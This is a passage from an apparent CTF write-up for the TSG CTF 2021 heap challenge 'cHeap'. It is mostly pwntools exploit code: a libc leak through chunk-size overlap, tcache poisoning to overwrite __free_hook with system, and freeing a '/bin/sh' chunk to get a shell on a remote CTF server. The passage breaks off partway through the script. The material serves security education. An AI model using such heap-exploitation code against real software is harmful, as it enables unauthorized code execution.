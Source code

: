 ```python
payload = b'A' * 0x60 + p64(free_hook) + b'\n'
create(0x50, payload) 
# back to s_chunk and overwrite fd pointer of 0x50 chunk to free-hook
delete()
create(0x40, b'\n')
# create the first 0x50 chunk, after this, tcache take the fd pointer to allocate next
# 0x50 chunk, but I overwrite it to the free_hook, so next time allocate(0x50),
# it will give me a pointer to free_hook
create(0x40, p64(system) + b'\n') # write address system to free_hook
create(0x10, b'/bin/sh\n') #create a chunk with str “/bin/sh”
delete() # free it, the program will call system(“/bin/sh”)
```

## Final exploit 

File [solve.py](/2021/TSG-CTF/cHeap/solve.py)

```python
from pwn import *

#s = process('./cheap')
#raw_input('DEBUG')

s = remote('34.146.101.4', 30001)

unsorted_bin = 0x1ebbe0
system_offset = 0x55410
free_hook_offset = 0x1eeb28

def create(size, data):
	s.sendlineafter(b'Choice: ', b'1')
	s.sendlineafter(b'size: ', bytes(str(size), 'utf-8'))
	s.sendafter(b'data: ', data)

def delete():
	s.sendlineafter(b'Choice: ', b'3')

def show():
	s.sendlineafter(b'Choice: ', b'2')


#Part 1: leak libc

# Create first chunk use for change size of second chunk
create(0xf0, b'\n')
delete()

# Create the second and third chunk with the total size > 0x410 to out of tcache
create(0x200, b'\n')
delete()

create(0x400, b'\n')
delete()

# create chunk to prevent it from top chunk
create(0x90, b'\n')
delete()

# comeback to first chunk due to tcache and edit size of second chunk to be the total size of second and third chunk
payload = b'A' * 0xf0 + p64(0) + p64(0x621) + b'\n'
create(0xf0, payload)
delete()
```